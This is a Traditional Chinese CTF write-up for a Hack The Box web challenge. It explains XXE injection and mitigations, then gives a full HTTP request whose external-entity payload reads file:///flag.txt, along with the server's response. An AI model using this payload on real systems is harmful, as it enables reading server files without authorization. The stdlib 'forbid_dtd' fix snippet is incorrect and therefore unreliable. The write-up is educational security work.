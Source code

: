 ## 題目 - Jailbreak
- EVENT: [CTF Try Out](https://ctf.hackthebox.com/event/1434)
- 種類: web
- 難度: very easy
- 靶機: `94.237.122.36:54349`

## 解題過程概述
觀察網站功能,注意到 `/rom` 路徑有 XML 相關資料  
開 burpsuite 發現 `/api/update` 使用 `Content-Type: application/xml` 傳資料  
於是嘗試 XXE 滲透測試


##  Initial Access - XXE (XML External Entity) 

### Vulnerability Explanation
**XXE (XML External Entity Injection)** 是一種針對 XML 解析器的攻擊手法。當應用程式處理 XML 輸入時,如果未正確配置解析器,攻擊者可以定義外部實體並引用本地或遠端資源。

**漏洞成因**:
- 後端 XML 解析器允許處理外部實體 (External Entities)
- 未禁用 DTD (Document Type Definition) 處理
- 沒有驗證或過濾使用者提供的 XML 內容

**攻擊原理**:
1. 在 XML 中定義 DTD,宣告外部實體
2. 外部實體使用 `SYSTEM` 關鍵字引用檔案系統路徑
3. 在 XML 內容中引用該實體
4. 伺服器解析 XML 時會讀取檔案內容並嵌入回應中

### Vulnerability Fix

**應用層面**:
1. **禁用外部實體處理**
   ```python
   # Python (lxml 範例)
   from lxml import etree
   parser = etree.XMLParser(resolve_entities=False, no_network=True)
   ```

2. **禁用 DTD 處理**
   ```python
   # Python (xml.etree 範例)
   import xml.etree.ElementTree as ET
   ET.XMLParser(forbid_dtd=True)
   ```

3. **使用安全的 XML 解析庫**
   - 使用 `defusedxml` 等安全加固的解析庫
   - 更新到最新版本的 XML 處理套件

4. **輸入驗證與白名單**
   - 驗證 XML 結構是否符合預期 schema
   - 拒絕包含 DOCTYPE 或 ENTITY 宣告的請求

**基礎設施層面**:
- 實施最小權限原則,限制應用程式讀取檔案的權限
- 使用 WAF (Web Application Firewall) 偵測並阻擋 XXE 攻擊模式
- 監控異常的檔案讀取行為

### POC 

取得 `file:///flag.txt`
```bash
POST /api/update HTTP/1.1
Host: 94.237.122.36:54349
Content-Length: 1409
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://94.237.122.36:54349
Referer: http://94.237.122.36:54349/rom
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
...

```
成功取得 flag
```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Thu, 30 Oct 2025 12:47:59 GMT
Content-Type: application/json
Content-Length: 130
Connection: close

{
  "message": "Firmware version HTB{b1...c} update initiated."
}

```


**Note**: 此 writeup 僅用於教育目的,請勿在未經授權的系統上進行測試。